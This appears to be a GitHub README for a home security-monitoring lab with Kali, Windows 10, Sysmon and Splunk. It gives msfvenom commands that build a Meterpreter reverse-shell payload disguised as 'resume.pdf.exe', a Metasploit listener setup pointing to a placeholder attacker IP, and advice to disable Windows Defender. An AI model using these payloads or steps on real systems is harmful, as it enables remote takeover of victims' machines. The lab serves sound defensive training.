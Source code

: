 # SOC Home Lab: Attack & Defense Simulation

---

## 📌 Table of Contents

1. [Introduction](#introduction)
2. [Prerequisites](#prerequisites)
3. [Network Topology](#network-topology)
4. [Step 1: Setting Up Virtual Machines](#step-1-setting-up-virtual-machines)
5. [Step 2: Installing Splunk for Log Monitoring](#step-2-installing-splunk-for-log-monitoring)
6. [Step 3: Installing Sysmon on Windows 10](#step-3-installing-sysmon-on-windows-10)
7. [Step 4: Generating Malware with msfvenom](#step-4-generating-malware-with-msfvenom)
8. [Step 5: Setting Up a Metasploit Listener](#step-5-setting-up-a-metasploit-listener)
9. [Step 6: Monitoring Logs with Splunk](#step-6-monitoring-logs-with-splunk)
10. [Troubleshooting](#troubleshooting)
11. [Next Steps & Future Improvements](#next-steps--future-improvements)
12. [How to Contribute](#how-to-contribute)
13. [Conclusion](#conclusion)

---

## 📌 Introduction

This project demonstrates the setup of a home lab environment for cybersecurity testing, including:

- **Attacker Machine** → Kali Linux
- **Target Machine** → Windows 10 VM
- **Logging System** → Splunk for monitoring malicious activities

Key activities include:
- Setting up virtual machines
- Installing and configuring Sysmon for log collection
- Deploying malware using `msfvenom`
- Monitoring attacks using Splunk

---

## 🔧 Prerequisites

| Requirement                | Description                                  |
|----------------------------|----------------------------------------------|
| **RAM**                    | At least **16GB** (to run multiple VMs)     |
| **Virtualization Software** | VMware Workstation or VirtualBox            |
| **Operating Systems**       | ISO files for Windows 10 and Kali Linux     |
| **Logging Tools**           | Splunk and Sysmon setup files               |
| **Internet Connection**     | Required for downloading and configuring tools |

---

## 🎬 Network Topology Animation

Click below to view the **interactive network diagram**:

➡️ [View Animation]

📌 *The Kali Linux machine attacks the Windows VM, and logs are collected by Splunk for analysis.*

---

## Step 1: Setting Up Virtual Machines

### 🖥️ 1.1 Install Kali Linux (Attacker Machine)

1. Download **Kali Linux ISO** from [Kali Official Website](https://www.kali.org/downloads/).
2. Create a new VM in VMware/VirtualBox and install Kali Linux.
3. Update and upgrade Kali:
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

### 🖥️ 1.2 Install Windows 10 (Target Machine)

1. Download Windows 10 ISO from [Microsoft's website](https://www.microsoft.com/en-us/software-download/windows10ISO).
2. Create a new VM and install Windows 10.
3. Ensure **networking is enabled** for communication between VMs.

---

## Step 2: Installing Splunk for Log Monitoring

1. Download **Splunk Free** from [Splunk Website](https://www.splunk.com/).
2. Install Splunk on your Windows 10 VM.
3. Start Splunk and log in with admin credentials.
4. Enable **data collection** for monitoring logs.

---

## Step 3: Installing Sysmon on Windows 10

1. Download Sysmon from [Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download a pre-configured `sysmonconfig.xml` from [Sysmon Modular](https://github.com/olafhartong/sysmon-modular).
3. Open **PowerShell as Administrator** and run:
   ```powershell
   cd "C:\Users\Downloads\sysmon"
   .\sysmon64.exe -i sysmonconfig.xml
   ```
4. Verify Sysmon is running:
   ```powershell
   Get-Process sysmon64
   ```

---

## Step 4: Generating Malware with msfvenom

On Kali Linux, generate a malicious executable:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
📌 *This creates `resume.pdf.exe`, which acts as our payload.*

---

## Step 5: Setting Up a Metasploit Listener

1. Open Metasploit on Kali:
   ```bash
   msfconsole
   ```
2. Configure the listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 4444
   exploit
   ```
3. Deploy `resume.pdf.exe` on Windows 10 and execute it.
4. If successful, you gain a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```

---

## Step 6: Monitoring Logs with Splunk

1. Open Splunk and search for unauthorized activity:
   ```
   index=main sourcetype=WinEventLog:Security
   ```
2. Identify anomalies related to unauthorized access.
3. Create alerts to detect suspicious behavior.

---

## 🔍 Troubleshooting

### ❌ Metasploit Handler Not Receiving a Session
- Ensure Windows Defender is **disabled** to prevent blocking the payload.
- Double-check **LHOST and LPORT settings** in both `msfvenom` and `msfconsole`.
- Run the payload on Windows as **Administrator**.

### ❌ Splunk Not Logging Events
- Verify Sysmon is correctly installed and running.
- Ensure Windows Event Logging is enabled in Splunk.
- Restart Splunk and recheck the event index.

---

## 🎯 Next Steps & Future Improvements

✔️ Integrate **ELK Stack** for enhanced log analysis.
✔️ Automate attack execution using **Python scripts**.
✔️ Implement **Wazuh SIEM** for better threat detection.

---

## 🤝 How to Contribute

Interested in improving this project? Contributions are welcome!

1. Fork the repository.
2. Create a new branch with your improvements.
3. Submit a pull request for review.

---

## 🎯 Conclusion

This project demonstrates how to:

- Set up a cybersecurity home lab 🏠
- Deploy and detect malware 🔍
- Use Splunk for threat monitoring ⚠️

> **Note:** This is for educational purposes only. Do not use these techniques for unauthorized activities.

### 📌 Connect with Me:
- [LinkedIn](https://www.linkedin.com/in/wasim-hassan-030b80349/)
